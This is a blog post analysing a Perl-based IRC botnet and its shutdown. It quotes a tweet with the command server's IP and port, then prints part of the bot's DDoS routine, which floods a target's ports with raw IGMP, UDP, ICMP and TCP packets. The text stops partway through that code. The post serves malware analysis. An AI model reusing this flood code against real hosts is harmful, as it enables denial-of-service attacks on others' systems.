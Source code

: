 ```yaml
---
layout: post
title:  "IRC driven Botnet"
subtitle: "Analysis and shutdown of a botnet ran by IRC protocol"
date:   2015-09-19 14:00:01
categories: ["IT-Security"]
emoji: true
---
```


This is just a short post about an botnet I got mentioned. It is using a Perl script to infect and let the bot join an IRC server. Scriptkiddies kinda love that way, easy to deploy ircd and maintaining.

**++ UPDATE ++**
We cleaned the botnet up, if you want to skip to that part, click <a href="#shutdown">here</a>.

---

<blockquote class="twitter-tweet" lang="de"><p lang="en" dir="ltr">Look whose infecting servers? <a href="http://t.co/HGNWgjKU30">http://t.co/HGNWgjKU30</a> <a href="https://twitter.com/MalwareMustDie">@MalwareMustDie</a> IRC: 112.216.147.83:6667 <a href="https://twitter.com/hashtag/pma?src=hash">#pma</a> #.f <a href="http://t.co/XOAxIAMApS">http://t.co/XOAxIAMApS</a> <a href="https://twitter.com/hashtag/botnet?src=hash">#botnet</a></p>&mdash; White Packet (@WhitePacket) <a href="https://twitter.com/WhitePacket/status/645251900477042689">19. September 2015</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

It has some functions to DDoS and doing other crappy things scriptkiddies dream of in their wet nights:

        #eu fiz um pacotadorzinhu e talz.. dai colokemo ele aki
        sub attacker {
          my $iaddr = inet_aton($_[0]);
          my $msg = 'B' x $_[1];
          my $ftime = $_[2];
          my $cp = 0;
          my (%pacotes);
          $pacotes{icmp} = $pacotes{igmp} = $pacotes{udp} = $pacotes{o} = $pacotes{tcp} = 0;

          socket(SOCK1, PF_INET, SOCK_RAW, 2) or $cp++;
          socket(SOCK2, PF_INET, SOCK_DGRAM, 17) or $cp++;
          socket(SOCK3, PF_INET, SOCK_RAW, 1) or $cp++;
          socket(SOCK4, PF_INET, SOCK_RAW, 6) or $cp++;
          return(undef) if $cp == 4;
          my $itime = time;
          my ($cur_time);
          while ( 1 ) {
             for (my $porta = 1; $porta <= 65535; $porta++) {
               $cur_time = time - $itime;
               last if $cur_time >= $ftime;
               send(SOCK1, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{igmp}++ if ($pacotes == 1);
               send(SOCK2, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{udp}++ if ($pacotes == 1);
               send(SOCK3, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{icmp}++ if ($pacotes == 1);
               send(SOCK4, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{tcp}++ if ($pacotes == 1);

